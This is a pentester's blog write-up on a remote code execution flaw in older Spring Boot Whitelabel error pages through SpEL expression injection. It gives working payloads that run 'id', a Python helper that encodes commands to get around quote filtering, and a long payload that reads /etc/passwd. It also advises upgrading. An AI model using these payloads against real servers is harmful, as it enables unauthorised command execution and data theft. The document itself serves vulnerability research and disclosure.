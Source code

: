 ```yaml
---
title:  "Spring Boot RCE"
date:   2017-02-02 23:11:23
categories: [security]
tags: [security][rce][pentest][web security]
---
```



This is my very frist blog post which was pending for a long time (almost a year). I would like to share a particular Remote Code Execution (RCE) in Java Springboot framework. I was highly inspired to look into this vulnerability after I read this article by **David Vieira-Kurz**, which can be found at his [blog](http://secalert.net/#cve-2016-4977). His article talks about an RCE in the Spring Security OAuth framework and how the Whitelabel error page can be used to trigger code execution.

So this meant that any Whitelabel Error Page which reflected user input was vulnerable to it. This was because user input was being treated in as Springs Expression Language (***SpEL***). So during my pentest I had come across a particualr URL which triggered this Whitelabel Error page.

**URL:** `https://<domain>/BankDetailForm?id=abc${12*12}abc`

**Error Page:**
![alt text](../../images/initial_error.png "Initial Error")


My input of `abc${12*12}abc` was reflected as `abc144abc`. Then I wanted to perform a simple **id** and get the result on screen. I proceeded with the following payload:

**URI:** `/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}`

**Payload:** `${T(java.lang.Runtime).getRuntime().exec('id')}`

**Error Page:**
![alt text](../../images/error_2.png "Payload Error")

Hmm.....I see nothing. The reflection gave back the input as it is. I double checked David's blog to see if I was doing anything wrong. I was unsure as to what went wrong. Was the payload incorrect or did I make a mistake with the braces?? Nope. Everything was correct but I was still not getting my desired output. After fiddling around for a few hours I decided to fireup a demo Springs app and try to recreate the same scenario. I tried with a basic `{5*5}` and got `25` printed beautifully onscreen. Then I tried doing an **id** and bam!!!, it did not execute. I knew that I had to dig deeper because this was eating me up. 

It got me thinking that quotes might have been encoded and might have broken the **exec()** command. Next thing was to look at the stack trace at the server and see what was wrong.

![alt text](../../images/debug_mode.png "Debugging")

So after debugging I could see that single & double quotes were URL encoded. The **exec()** method clearly takes an argument
as a string. Now I either need to find characters within the error code and take bits & pieces and pass it to exec using **substring()**, which is still pretty difficult or I need to find a way to pass my string without using double quotes or single qutoes. I wanted to go with the second approach. Java supports nested functions and if I'm able to find a method which can output `id` or `cat etc/passwd`, this would then be passed to **exec()** and then my payload would run successfully.

After going through some Java classes I stumbled upon the following:

``` ruby
java.lang.Character.toString(105) 
-> prints the characer 'i'
``` 

Now I need to concat the letter 'd' and I'm golden. Again concat() is a method and i'm going to nest the `character.toString` inside it as well.

``` ruby
java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))
-> prints the characters 'id'
``` 
Now crafting the final payload, I get the following:

~~~ ruby          
https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.
lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}
~~~
![alt text](../../images/rce_blind.png "id executes")

The **getRuntime()** method returns the runtime object which we got on screen. Now we have some sort of a Blind RCE with which we can run any commands. I wanted to go a step further and get the output on screen (just for fun). At this point I wanted to do a `cat etc/passwd` and print the result onto the Whitelabel Error page. This meant for every character I would need to write its ASCII equivalent in the format `concat(T(java.lang.Character).toString(<ascii value>))`. Wrote a quick sloppy python script to acheive this:

**Python Script:**

``` ruby
#!/usr/bin/env python
from __future__ import print_function
import sys

message = raw_input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

```


Now to get the output of `cat etc/passwd` in the response, we will use the ***IOUtils*** class and call the **toString()** method. We can pass an input stream to this method and get the contents of the stream as a response.

~~~ ruby  
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).get
Runtime().exec(T(java.lang.Character).toString(99).concat(T(ja
va.lang.Character).toString(97)).concat(T(java.lang.Character).toStri
ng(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.la
ng.Character).toString(47)).concat(T(java.lang.Character).toString(10
1)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.C
haracter).toString(99)).concat(T(java.lang.Character).toString(47)).c
oncat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).
toString(97)).concat(T(java.lang.Character).toString(115)).concat
(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
g(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
~~~

The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted `cat etc/passwd` into ASCII characters using the character class, passed this value to the **exec()** method and got the input stream and passed it to the `toString()` method of IOUtils class. Awesome isnt it. I tried this on the remote box and got the following.

![alt text](../../images/rce_new.jpg "etc/passwd")

All this hassle just to get around the single and double quotes. However I feel there might have been easier ways to go about it. Tackling out the hurdles and troubleshooting and debugging and finally getting what you want is such a serene feeling. This bug was a learning curve for me and I learned a lot of things alongside exploiting this. If you are using an older version of Spring Boot, I would highly advise you to upgrade it. The vulnearbilty has been patched since Spring Boot 1.2.8.

I hope you guys enjoyed this blog. Please feel free to let me know your thoughts or any doubts you have. You can also catch me up on [Twitter][twitter] or shoot me an email.


[twitter]:      https://twitter.com/0xdeadpool
